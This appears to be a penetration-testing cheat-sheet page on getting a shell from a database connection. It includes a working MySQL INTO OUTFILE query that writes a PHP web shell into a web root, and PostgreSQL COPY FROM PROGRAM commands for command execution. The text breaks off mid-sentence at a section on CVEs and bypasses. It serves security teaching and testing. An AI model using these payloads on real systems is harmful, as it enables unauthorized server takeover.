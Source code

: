 ```yaml
---
description: You have a connection to a database. How can you get a shell from that?
---
```


# Get a Shell From DB Connection

### Write a Web Shell

Prerequisites:

* A web server that supports PHP or ASP is installed on the same server
* The database user has write permissions in a directory from where PHP or ASP can be executed through the web server

Many databases can write files to the local system. So if possible, write a web shell to the web server.

Mysql example:

```
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
```

### Databases Support Command Execution

Some databases support command execution, so you can just use that. Usually you need the highest database privileges to do it, though.

Prerequisite:

* Database system that supports command execution
* Usually requires the highest privileges that can be gained in the database (not a normal db user)

**Postgresql example** (requires login as `postgres` user)&#x20;

First, the attacker needs to create a table to hold the system command's output.

```
> CREATE TABLE cmd_exec(cmd_output text);
```

Then, they can run the system command via the COPY TO/FROM PROGRAM function.

```
> COPY cmd_exec FROM PROGRAM 'id';
```

Run longer commands like this:

```
> COPY cmd_exec FROM PROGRAM 'touch /tmp/test';
```

### CVEs and Bypasses

Even if the database system doesn't officially support running commands a

